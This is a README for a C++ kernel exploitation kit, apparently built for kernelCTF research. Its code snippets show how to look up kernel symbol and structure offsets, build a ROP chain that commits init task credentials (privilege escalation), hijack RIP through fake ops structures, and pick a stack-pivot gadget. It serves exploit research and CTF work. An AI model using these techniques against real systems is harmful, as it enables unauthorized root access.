 # How to get started

### Creating a Database

1. Add the necessary includes to the exploit code.

    ```c++
    #include <xdk/core.h>
    #include <xdk/postrip.h>
    ```

2. Include the **target_db** in the exploit. `INCBIN` creates a read-only section in the binary with the file contents.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**:

    ```c++
    TargetDb kxdb(target_db, target_db_size);
    ```

4. Already available in database structure and symbol offsets are documented in `kxdb_tool/converter/config.py`. 
They are added for all the supported targets.

5. If the needed symbol is not in database, use `StaticTarget` object to add it. One object per target needed. For example:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddStaticTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128, { 
        {"dump", 64, 8},
        {"type", 120, 8} });

    kxdb.AddStaticTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7. Access pre-defined or added (via `StaticTarget`) structures and symbols using following calls:

    ```c++
    auto offset = structs.at("nft_expr_ops").size + structs.at("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure   

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ``` 

8.  Detect which target **TargetDb** is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. If the payload contains constants / areas that should not be overwritten by `PayloadBuilder`, mark them as reserved:

   ```c++
   payload.Reserve(0, 8);
   ```
   
   > **Note**
   > Reserves 8 bytes at offset 0.   

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `kxdb_tool/converter/config.py`. 

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset     
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build()) 
        exit(-1); 
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:
   
   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset(); 
   ```
